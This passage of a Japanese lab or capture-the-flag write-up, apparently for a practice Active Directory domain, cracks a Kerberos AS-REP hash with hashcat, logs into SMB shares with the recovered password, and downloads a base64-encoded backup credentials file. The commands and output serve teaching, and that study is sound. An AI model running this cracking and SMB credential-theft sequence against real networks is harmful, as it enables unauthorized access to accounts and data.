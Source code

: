 #### Hashのクラッシュ
取得できたTGTのハッシュからhashcatを利用してhash解析をしてパスワードを取得。

hashcatでは、解析したいハッシュ対象を指定するため、確認するとAS-REQは18200
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ hashcat -h |grep Kerberos
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```
hashcatを実行してみると、management2005がパスワードとわかる！
```sh
Dictionary cache built:
* Filename..: passwordlist.txt
* Passwords.: 70188
* Bytes.....: 569236
* Keyspace..: 70188
* Runtime...: 0 secs
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f~~~~~555:management2005
```

IDとパスワードからSMBサービスにログインをしてみる。
SMBのポートを利用してファイルサーバーにアクセスしてみる
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ smbclient -L \\\\spookysec.local -U svc-admin    
Password for [WORKGROUP\svc-admin]:management2005

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to spookysec.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```
backupの中身からbackupユーザーのIDとPWを取得
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ smbclient  \\\\spookysec.local\\backup -U svc-admin
Password for [WORKGROUP\svc-admin]:management2005
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr  5 04:08:39 2020
  ..                                  D        0  Sun Apr  5 04:08:39 2020
  backup_credentials.txt              A       48  Sun Apr  5 04:08:53 2020
       
                8247551 blocks of size 4096. 3668238 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> exit

┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ less backup_credentials.txt 

┌──(kali㉿kali)-[~/7DaysHacking/Day6]
└─$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw       
```